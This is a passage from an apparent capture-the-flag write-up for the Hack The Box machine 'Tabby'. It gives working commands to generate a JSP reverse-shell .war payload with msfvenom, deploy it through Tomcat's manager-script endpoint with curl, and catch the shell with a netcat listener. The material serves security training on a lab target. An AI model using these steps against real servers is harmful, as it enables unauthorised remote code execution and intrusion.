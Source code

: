 
Honestly, there's nothing much we can do here, so let's move on to the manager-script role.

Using this role, we are able to use curl to upload web applications (packaged as .war files) to tomcat, even if we do not have access to the GUI. 

Let's create a .war application using msfvenom to pop our reverse shell: 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.43 LPORT=8000 -f war > wartime.war
```

![cbc34d1e4db6cc0c38aeda152331fa45.png](/images/htb-tabby/d95c24ad794a4fca8dd7ac3d8311b097.png)

Be sure to change the LHOST and LPORT values to match your local machine. 

Next, let's upload the .war file using

```bash
curl -u tomcat -T /path/to/web/app/wartime.war http://megahosting.htb:8080/manager/text/deploy?path=/wartime
```

A couple of things to note: 
1. this **does not** support HTTP POST requests. 
2. Use HTTP PUT to upload the file instead.
3. Also take note of the `/` in front of the deployment path.

![014582821bc5cfcbf638af6f1c59446d.png](/images/htb-tabby/0aa119338ea94e2184e15fa1feb41a0f.png)

If you make a mistake with the LHOST or LPORT, you can undeploy the .war file using: 

```bash
curl -u tomcat http://megahosting.htb:8080/manager/text/undeploy?path=/wartime
```

![1992c9c407679a0685cdd1ecc069000b.png](/images/htb-tabby/fb8a5394582d4e4bbdfea4159b54925d.png)

Once we have successfully uploaded the .war file, prepare to catch the shell with `nc -lvnp 8000`. We can trigger the shell by navigating to `http://megahosting.htb:8080/wartime`

![a856c943e679e41a7896c610630e6d02.png](/images/htb-tabby/85581c3234cb4ebfbd331f349faa7abd.png)
